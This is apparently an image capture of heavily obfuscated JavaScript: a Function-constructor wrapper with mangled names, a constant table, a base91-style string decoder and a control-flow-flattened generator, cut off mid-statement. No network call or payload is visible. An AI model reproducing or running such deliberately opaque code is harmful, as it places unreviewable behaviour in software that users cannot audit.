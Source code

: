 Function("M4PMnYY","var _BAQWF8,MiG_WRP,Vnhvoo,urRQZ0R,ZQoSUK,mNfGC37,G9xaQU,Bw4iIv_,K587oj,dRF1Xp;function
QjB27O(_BAQWF8,MiG_WRP,Vnhvoo){for(Vnhvoo=0x0;Vnhvoo<MiG_WRP;Vnhvoo++)_BAQWF8.push(_BAQWF8.shift());return _BAQWF8}const PMkNEPX=[\"length\",0x1,0x47,0x0,0x4e,0x3,0xb2,0x9,0x1a,0x5,0xc6,0x5f,0x8,0xff,\"undefined\",0x3f,0x6,\"fromCodePoint\",0x7,0xc,\"push\",0x5b,0x1fff,0x58,0xd,0xe,0x2,\"a\",\"i\",\"g\",\"f\",0x87,0x7f,0x80,0xdf,0xef,\"L\",!0x1,0xbe,0xd0,0x149,0x10b,0x106,0x111,0xca,0xd7,0x14a,\"Y\",0xd4,0xc9,0x100,0xc8,0xf4,0x68,0x94,\"h\",\"d\",0x43,0x23,0x35,0x3c,\"b\",0x88,0xa,0x1c,0xa9,void 0x0,0xe2,0x10d,0xf3,0x40,0xee,0x3d,0xe7,0xb8,\"c\",0xcc,0x51,\"e\",null,0xf5,0xf2,0xeb,0xcd,0x15d,0xea,0x101,0x10c,0xd3,0x108,0xce,0xcb,0xae,0x10f,0xc1,0xbf,0xa7,0x75,0x30,0x4,0x54,0x59,0x8e,0x6c,\"B\",0x10a,0x114,0x2a,0x20,0xdc,0x48,0x184,0xe0,0x105,0x104,0xa4,0x15,0x2000000,0x4000000,0x18b,0xd1,0x8f,0x18c,0x18d,0x115,0xe5,0x18f,0xc2,0x191,0xa1,0x82,0x190,0xdd,0xad,0xd6,0xdb,0x116,0x3e8,\"j\",0xc7,0xd9,0x10e,0x1a5,0xe6,0xf7,0x119,0x113,0xe9,0x1a8,0x102,0xb4,0x22,0x153,0x154,0x85,0x118,0x64,0xd5,0x65,0x32,0x7b,0xb,0x18,0xa0,0x1bf,0xec,0xc3,0x56,0x34,0x4c,0x1c9,\"U\",0xc5,0xe4,0xf9,0x2e,0x7e,0xfb,0x57,0xda,0xd8,0xed,0x103,0xfd,0xf1,0x107,0x1d1,0xc4,\"id\",0x1f1,0x110,0x109,0x1f2,0xfc,0x1f8,0xde,0xfe,0xe3,0x1fb,0xf6,0xfa,0xe8,\"0\",0x112,0xe1,0xb3,0xbd,0x212,0x213,0xc0,0xf0,0xf8,0xcf,0x155,0xd2,0x117,0xf,0x3b,\"k\"];HFxDDU(ybls5gF(GJbXrdr,PMkNEPX[0x1a]),ybls5gF(TmMJMC),ybls5gF(pt92wNi),ybls5gF(Uv987nQ));function ybls5gF(_BAQWF8,MiG_WRP=PMkNEPX[0x1]){Object.defineProperty(_BAQWF8,PMkNEPX[0x0],{value:MiG_WRP,configurable:PMkNEPX[0x25]});return _BAQWF8}function Uv987nQ(..._BAQWF8){HFxDDU(_BAQWF8[PMkNEPX[0x0]]=PMkNEPX[0x1],_BAQWF8[PMkNEPX[0x6]]=\"1M:=e[S4.JnW)I@+d%^O]<xZ{N*uyv|#tf32iAo6/BUz>j$0Hpl5`}Xsb&c\\\"TCmR,Y9wQk7LF;!h?gG8PED~K(arV_q\",_BAQWF8[-PMkNEPX[0x2]]=\"\"+(_BAQWF8[PMkNEPX[0x3]]||\"\"),_BAQWF8[PMkNEPX[0x5]]=_BAQWF8[-PMkNEPX[0x2]].length,_BAQWF8[PMkNEPX[0xb]]=[],_BAQWF8[PMkNEPX[0x9]]=PMkNEPX[0x3],_BAQWF8[-PMkNEPX[0xa]]=PMkNEPX[0x3],_BAQWF8[PMkNEPX[0x8]]=-PMkNEPX[0x1]);for(_BAQWF8[-PMkNEPX[0x4]]=PMkNEPX[0x3];_BAQWF8[-PMkNEPX[0x4]]<_BAQWF8[PMkNEPX[0x5]];_BAQWF8[-PMkNEPX[0x4]]++){_BAQWF8[PMkNEPX[0x7]]=_BAQWF8[PMkNEPX[0x6]].indexOf(_BAQWF8[-PMkNEPX[0x2]][_BAQWF8[-PMkNEPX[0x4]]]);if(_BAQWF8[PMkNEPX[0x7]]===-PMkNEPX[0x1])continue;if(_BAQWF8[PMkNEPX[0x8]]<PMkNEPX[0x3]){_BAQWF8[PMkNEPX[0x8]]=_BAQWF8[PMkNEPX[0x7]]}else{HFxDDU(_BAQWF8[PMkNEPX[0x8]]+=_BAQWF8[PMkNEPX[0x7]]*PMkNEPX[0x15],_BAQWF8[PMkNEPX[0x9]]|=_BAQWF8[PMkNEPX[0x8]]<<_BAQWF8[-PMkNEPX[0xa]],_BAQWF8[-PMkNEPX[0xa]]+=(_BAQWF8[PMkNEPX[0x8]]&PMkNEPX[0x16])>PMkNEPX[0x17]?PMkNEPX[0x18]:PMkNEPX[0x19]);do{HFxDDU(_BAQWF8[PMkNEPX[0xb]].push(_BAQWF8[PMkNEPX[0x9]]&PMkNEPX[0xd]),_BAQWF8[PMkNEPX[0x9]]>>=PMkNEPX[0xc],_BAQWF8[-PMkNEPX[0xa]]-=PMkNEPX[0xc])}while(_BAQWF8[-PMkNEPX[0xa]]>PMkNEPX[0x12]);_BAQWF8[PMkNEPX[0x8]]=-PMkNEPX[0x1]}}if(_BAQWF8[PMkNEPX[0x8]]>-PMkNEPX[0x1]){_BAQWF8[PMkNEPX[0xb]].push((_BAQWF8[PMkNEPX[0x9]]|_BAQWF8[PMkNEPX[0x8]]<<_BAQWF8[-PMkNEPX[0xa]])&PMkNEPX[0xd])}return XI_m57(_BAQWF8[PMkNEPX[0xb]])}function pt92wNi(...Vnhvoo){var urRQZ0R,ZQoSUK;function*mNfGC37(ZQoSUK,mNfGC37,G9xaQU,Bw4iIv_,K587oj={e94Unme:{}}){while(ZQoSUK+mNfGC37+G9xaQU+Bw4iIv_!==-0x1f)with(K587oj.nuh88QK||K587oj)switch(ZQoSUK+mNfGC37+G9xaQU+Bw4iIv_){case 0xd3:HFxDDU(K587oj.e94Unme.mtrXaS5=-0x7e,Vnhvoo[PMkNEPX[0x0]]=PMkNEPX[0x1]);if(typeof _BAQWF8[Vnhvoo[PMkNEPX[0x3]]]===PMkNEPX[0xe]){HFxDDU(K587oj.nuh88QK=K587oj.e94Unme,ZQoSUK+=0x3c,mNfGC37+=0xc,G9xaQU+=0x84,Bw4iIv_+=-0x1de);break}else{HFxDDU(K587oj.nuh88QK=K587oj.e94Unme,ZQoSUK+=-0xc2,mNfGC37+=0xc,G9xaQU+=0x84,Bw4iIv_+=-0x191);break}case 0x47:HFxDDU(K587oj.nuh88QK=K587oj.XtVQwA,ZQoSUK+=0x16d,mNfGC37+=-0x1d,G9xaQU+=-0x145,Bw4iIv_+=0x81);break;case 0x3d:case 0xb1:case K587oj.e94Unme.mtrXaS5+0x3f:return urRQZ0R=!0x0,_BAQWF8[Vnhvoo[PMkNEPX[ZQoSUK+-0xe4]]]=Uv987nQ(MiG_WRP[Vnhvoo[PMkNEPX[0x3]]]);case-0x2a:case 0xa3:case-0x49:HFxDDU(K587oj.e94Unme.mtrXaS5=0x6,K587oj.nuh88QK=K587oj.e94Unme,ZQoSUK+=-0x66,mNfGC37+=0x40,G9xaQU+=0xea,Bw4iIv_+=-0x257);break;case K587oj.e94Unme.mtrXaS5+0x3b:HFxDDU(K587oj.e94Unme.mtrXaS5=-0xdc,K587oj.nuh88QK=K587oj.e94Unme,ZQoSUK+=-0x74,mNfGC37+=0x198,G9xaQU+=-0xc1,Bw4iIv_+=-0x110);break;case ZQoSUK-0xd9:return urRQZ0R=!0x0,_BAQWF8[Vnhvoo[PMkNEPX[0x3]]];case 0xd0:case ZQoSUK-0x104:case-0x78:HFxDDU(K587oj.nuh88QK=K587oj.e94Unme,ZQoSUK+=-0x66,mNfGC37+=-0xbf,G9xaQU+=0xea);break;default:HFxDDU(K587oj.nuh88QK=K587oj.jTmRku,ZQoSUK+=0x111,mNfGC37+=-0x147,G9xaQU+=0x1ac,Bw4iIv_+=-0x110);break}}HFxDDU(urRQZ0R=void 0x0,ZQoSUK=mNfGC37(0xab,0x2f,0xe,-0x15).next().value);if(urRQZ0R){return